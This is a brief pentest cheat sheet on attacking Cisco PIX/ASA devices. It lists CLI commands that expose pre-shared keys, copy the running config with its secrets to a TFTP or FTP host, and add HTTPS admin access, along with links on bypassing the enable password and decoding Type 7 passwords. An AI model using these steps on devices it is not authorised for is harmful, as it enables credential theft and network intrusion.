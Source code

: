 # Attacking Cisco devices

## Recover preshared keys

http://www.cisco.com/c/en/us/support/docs/security/pix-500-series-security-appliances/82076-preshared-key-recover.html

### Option 1

more system:running-config

### Option 2

Copy your configuration to a TFTP server. This is needed because once the configuration is sent to the TFTP server, the pre-shared key appears as clear text (instead of ****** , as in the show run command).

Issue this command in order to copy your configuration to a TFTP server:

```
    ASA#write net [[tftp server_ip]:[filename]]:
```

OR

```
    ASA#copy running-config tftp:
```

Once the file is saved on the TFTP server, you can open it with a text editor and view the passwords in clear text.

Example:

    pixfirewall#copy running-config tftp:
    Source filename [running-config]?
    Address or name of remote host []? 172.16.124.2

### Option 3 - ACCESS via HTTPS

In order to get the clear text of the pre-shared key, access the PIX/ASA through HTTPS.

Create a username/password to get the access of the PIX/ASA configuration.

    pix(config)#username username password password

In order to enable the security appliance HTTP server, use the http server enable command in global configuration mode. In order to disable the HTTP server, use the no form of this command.

    hostname(config)#http server enable

In order to specify hosts that can access the HTTP server internal to the security appliance, use the http command in global configuration mode. In order to remove one or more hosts, use the no form of this command. In order to remove the attribute from the configuration, use the no form of this command without arguments.

    hostname(config)#http 10.10.99.1 255.255.255.255 outside

Use the username/password to login to the PIX/ASA using the browser as this example shows.

    https://10.10.99.1/config

### Option 4 - via FTP

copy run ftp://172.16.124.2/running-config


## How To Break Into A Cisco ASA If You Do Not Have The Enable Password

* http://www.gomjabbar.com/2011/05/14/how-to-break-into-a-cisco-asa-if-you-do-not-have-the-enable-password/#sthash.AnWAI1DR.dpbs

Cisco Type 0 Password: These passwords are stored in plain text Cisco Type 5 Password: These passwords are stored as salted MD5 hash.
Requires brute-force attack to recover password Cisco Type 7 Password: These passwords are encoded using Cisco's private encryption algorithm & can be decrypted instantly.

* http://www.hope.co.nz/projects/tools/ciscopw.php

tags: cisco pentest ios [cisco asa] links

